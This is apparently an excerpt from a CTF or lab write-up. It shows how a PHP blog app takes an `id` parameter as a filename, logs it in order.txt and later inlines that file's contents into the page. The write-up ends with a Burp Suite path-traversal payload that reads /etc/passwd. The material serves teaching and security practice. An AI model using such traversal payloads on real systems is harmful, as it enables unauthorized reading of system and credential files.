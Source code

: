 We understand the **id** parameter is a file name, the application will write into. This filename is also written into `order.txt`.

Then, when displaying the page after the POST :

```php
function fetchPage() {
    chdir(getcwd() . "/../content");
    $order = file("order.txt", FILE_IGNORE_NEW_LINES);
    $html_content = "";
    foreach($order as $line) {
        $temp = $html_content;
        $html_content = $temp . "<div class = \"{$line} blog-indiv-content\">" . file_get_contents($line) . "</div>";
    }
    return $html_content;
}
```

all files that their name is referenced is loaded and included in the page

```php
const html = <?php echo json_encode(fetchPage()); ?>.replace(/(\r\n|\n|\r)/gm, "");
        $(".push-for-h1").after(html);
```

We can use burpsuite repeater in order to replay a request with a text file to read :

`id=../../../../../../../../etc/passwd&txt=test`

![Untitled](assets/burpsuite_test_add_text_file.png)
